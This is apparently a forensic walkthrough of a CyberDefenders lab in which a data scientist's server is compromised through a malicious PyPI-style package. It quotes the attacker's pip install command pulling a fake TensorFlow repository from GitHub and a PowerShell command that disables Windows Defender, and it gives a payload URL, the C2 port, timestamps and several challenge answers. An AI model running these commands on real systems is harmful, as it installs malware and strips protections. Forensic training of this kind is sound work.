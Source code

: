 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/malicious-pypi/">Malicious PyPi</a>

**Platform:** CyberDefenders

**Scenario:** On a Monday afternoon, Dr. Alex Rivera, a data scientist, observed that the CPU utilization on their main development server was persistently exceeding 90%, coupled with a noticeable decline in network connectivity speed, falling well below standard performance levels. This situation was unusual, as the team had not launched any new operations that could account for the increased CPU demand.

A triage image has been taken from his computer, and it is imperative to swiftly determine the root cause, extent, and potential repercussions of this issue to prevent any adverse effects on the company's activities.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `N/A`

**Tools:** `` 

**Note:** In this walkthrough, CyberDefenders offers a lab environment for us to utilize. This feature is included with the PRO subscription.

## **Preparations** 

![image](https://github.com/user-attachments/assets/bc3c12fb-0680-4ce0-a2e7-a1f1a28f1bac)

  
## **Questions and Answers**

***1. Dr. Alex Rivera recently downloaded an external library that raised suspicions about system security. Can you identify the specific command used for this download?***  
pip install git+https://github.com/a1l4m/TensorFlow.git#egg=TensorFlow

![image](https://github.com/user-attachments/assets/cba54d19-7ad6-458b-ac61-9c525a65b243)

C:\Users\Administrator\Desktop\Start Here\Artifacts\C\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline

***2. During the investigation, you uncover a command that modified the system's security settings, resulting in the deactivation of Windows Defender in a manner that could assist an attacker. What was this command?***  
***-************ -************************* $*******  

C\Windows\System32\winevt\logs

![image](https://github.com/user-attachments/assets/3e62fbb7-9210-4af1-97a9-4811130c0c47)

Set-MpPreference -DisableRealtimeMonitoring $true

![image](https://github.com/user-attachments/assets/ad04b017-3130-47a4-bb75-094e3d70cd75)

![image](https://github.com/user-attachments/assets/783e5676-4100-4411-8395-d032e0d92853)


***3. Based on your timeline analysis, at what date and time did you first observe unauthorized changes to the security settings that led to the disabling of Windows Defender? Provide the exact UTC timestamp.***  
2024-02-26 12:22:17

![image](https://github.com/user-attachments/assets/68b86f56-85df-4549-a7b5-305133788125)

***4. After the security settings were compromised, a new file appeared on the system. What is the md5 hash of this file, indicating its unique identity?***  

C:\Users\Administrator\Desktop\Start Here\Tools\ZimmermanTools\net6>.\MFTECmd.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\C\$MFT" --csv C:\Users\Administrator\Desktop\ --csvf mft.csv

![image](https://github.com/user-attachments/assets/48d0381b-8967-48bb-9fc2-ff587d1f46af)

![image](https://github.com/user-attachments/assets/907f1eef-8c7d-49d5-b560-364de3fbaa20)

![image](https://github.com/user-attachments/assets/8f04dbc2-8f40-4906-b0db-fc112902bbc9)

23AADF3C98745CF293BFF6B1B0980429

 Get-FileHash .\setup.exe -Algorithm MD5
 ![image](https://github.com/user-attachments/assets/cfb1a67f-cd50-4a2e-919c-fcd1fdac8687)

 
![image](https://github.com/user-attachments/assets/22c6bd9b-61d4-4556-97b0-80ef206a515f)


***5. Investigate the origin of the malicious file detected on the server. What was the exact URL from which this file was initially downloaded before it started communicating with external C2 servers?***  
http://3.66.85.252:8000/file.exe

![image](https://github.com/user-attachments/assets/24cafeba-00e0-4ada-a77d-fdc73607f991)

C:\Users\Administrator\Desktop\Start Here\Artifacts\C\Users\Administrator\AppData\Local\Temp

***6. The file in the previous questions started communicating with an external C2 server. What port was used for this communication?***  
8888

![image](https://github.com/user-attachments/assets/98ca5c39-6062-40a7-a918-917182723fea)

***7. Attackers often ensure their continued access to a compromised system through persistence mechanisms. When was such a mechanism established on Dr. Rivera's system? Provide the UTC timestamp.***  
2024-02-26 12:36:52

![image](https://github.com/user-attachments/assets/b2855a98-e01d-49f9-9f0c-507a04f10c12)

C:\Users\Administrator\Desktop\Start Here\Artifacts\C\Windows\System32\Tasks

***8. After the attacker completed their intrusion, a specific file was left behind on the host system. Based on the information you've gathered, identify the name of this file, which was created shortly after the attacker established persistence on the system.***  
******.***  

***9. Determine the exact moment the malicious file identified in Question 8 began its operation. When was it first executed? Provide the UTC timestamp.***  
YYYY-MM-DD HH:MM:SS  
Answer Format: YYYY-MM-DD HH:MM:SS  

***10. After identifying the malicious file in Question 8, it is crucial to determine the name of the malware family. This information is vital for correlating the attack with known threats and developing appropriate defenses. What is the malware family name for the malicious file in Question 8?***  
******
